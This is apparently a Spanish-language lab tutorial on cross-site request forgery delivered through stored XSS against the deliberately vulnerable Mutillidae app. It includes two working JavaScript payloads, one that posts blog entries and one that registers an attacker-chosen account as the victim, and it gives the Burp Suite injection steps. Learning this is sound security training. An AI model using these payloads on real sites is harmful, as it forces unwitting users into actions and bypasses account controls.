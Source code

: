 # CSRF (Cross-site request forgery)

Con esto basicamente lo que hacemos es forzar a un usuario legitimo que esta logeado en una aplicacion web realice una accion que ni si quiera sabe que esta realizando.

Vamos a coger un script que ya nos proporciona la pagina `Mutillidae` que seria el siguiente:

```html
<script>
	var lXMLHTTP;
	try{
		var lBlogEntry = encodeURI("Entrada de blog anadida mediante CSRF");

		var lData = "csrf-token=&blog_entry="+lBlogEntry+"&add-to-your-blog-php-submit-button=Save+Blog+Entry";
		var lAction = "./index.php?page=add-to-your-blog.php";
		var lMethod = "POST";

		try {
			lXMLHTTP = new ActiveXObject("Msxml2.XMLHTTP");
		}catch(e){
			try {
				lXMLHTTP = new ActiveXObject("Microsoft.XMLHTTP");
			}catch(e){
				try{
					lXMLHTTP = new XMLHttpRequest();
				}catch(e){
					alert(e.message);
				}
			}
		}

		lXMLHTTP.onreadystatechange = function(){
			if(lXMLHTTP.readyState == 4){
				alert("CSRF Complete");
			}
		};

		lXMLHTTP.open(lMethod, lAction, true);
		lXMLHTTP.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		lXMLHTTP.send(lData);
	}catch(e){
		alert(e.message);
	}
</script>
```

Lo que vamos hacer con esto es que cada vez que un usuario entre en esta entrada de blog, se va a ejecutar en segundo plano esta sentencia bajo su nombre sin que el se de cuenta.

Ponemos a `Burp Suite` a la escucha, para capturar una peticion que nosotros hagamos, una vez que hayamos capturado la peticion poniendo por ejemplo `canario`, nos vamos al `Decoder` y lo codificamos en `URL`, despues esta codificacion la pegamos sustituyendo la palabra `canario`, quedando algo asi:

<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

Le daremos a `Forward` y veremos esto:

<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

Por lo que vemos que ha funcionado, claramente este popup en una explotacion real, no habria que ponerlo.

Y vemos que algo se ha injectado en el blog:

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

Por lo que cada vez que un usuario acceda a esta pagina se va a estar ejecutando este scrip:

<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

Y se va a estar añadiendo una entrada en el blog como el usuario que entre.

Si por ejemplo nosotros nos logeamos con otro usuario, como si fuera otro el usuario que entre y nos dirijimos a ver las entradas de blog en el siguiente apartado:

`OWASP 2017` -> `Cross-Site-Scripting (XSS)` -> `Persistent (Second Order)` -> `View Someone's Blog`.

Seleccionamos el ver todas las entradas `Show all` y le damos a `View Blog Entries`, veremos esto:

<figure><img src="../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

Veremos que se nos ha ejecutado por detras el script, como este usuario, por lo que si nosotros ahora nos dirigimos a escribir una entrada en el blog:

<figure><img src="../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

Veremos que ya hay una entrada con este usuario logeado, por lo que ha funcionado correctamente.

Y lo que estamos haciendo con esto es que el usuario realice algunas tareas en nuestro beneficio.

Por ejemplo otro `payload` mas potente es hacer al usuario de que registre otra cuenta:

```html
<script>
	var lXMLHTTP;
	try{
		var lUsername = "csrf_test";
		var lPassword = "csrf_password";
		var lSignature = "Cuenta creada mediante una vulnerabilidad CSRF";
		var lData = "username="+lUsername+"&password="+lPassword+"&confirm_password="+lPassword+"&my_signature="+lSignature+"&register-php-submit-button=Create+Account";
		var lAction = "./index.php?page=register.php";
		var lMethod = "POST";

		try {
			lXMLHTTP = new ActiveXObject("Msxml2.XMLHTTP");
		}catch(e){
			try {
				lXMLHTTP = new ActiveXObject("Microsoft.XMLHTTP");
			}catch(e){
				try{
					lXMLHTTP = new XMLHttpRequest();
				}catch(e){
					alert(e.message);
				}
			}
		}

		lXMLHTTP.onreadystatechange = function(){
			if(lXMLHTTP.readyState == 4){
				alert("CSRF Complete");
			}
		};

		lXMLHTTP.open(lMethod, lAction, true);
		lXMLHTTP.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		lXMLHTTP.send(lData);
	}catch(e){
		alert(e.message);
	}
</script>
```

Lo que hace esto al usuario es forzar mediante una peticion `AJAX` a crear una nueva cuenta con los parametros que nosotros le indiquemos.

Lo bueno de esto es que si nosotros no podemos crearnos una cuenta ya sea por que es una aplicacion de empresa o solo se puede por invitacion, otro usuario que si tenga acceso a ello podra crearla por nosotros y nosotros podernos logear con dicha cuenta.

Por lo que abriremos `Burp Suite` capturaremos la peticion de `canario` y codificaremos el anterior script en `URL` y lo reemplazaremos por la palabra `canario` quedando algo asi:

<figure><img src="../../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>

Le daremos a `Forward` y nos saldra esto:

<figure><img src="../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

Ahora nos loguearemos con otra cuenta para hacerlo desde un usuario externo.

Nos iremos a `OWASP 2017` -> `Cross-Site-Scripting (XSS)` -> `Persistent (Second Order)` -> `View Someone's Blog`.

Seleccionamos el ver todas las entradas `Show all` y le damos a `View Blog Entries`, veremos esto:

<figure><img src="../../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

Por lo que el usuario con los parametros que especificamos ya se habria creado correctamente bajo este usuario, solo tendremos que probar a introducir las credenciales y veremos lo siguiente:

```
User: csrf_test
Pass: csrf_password
```

<figure><img src="../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>
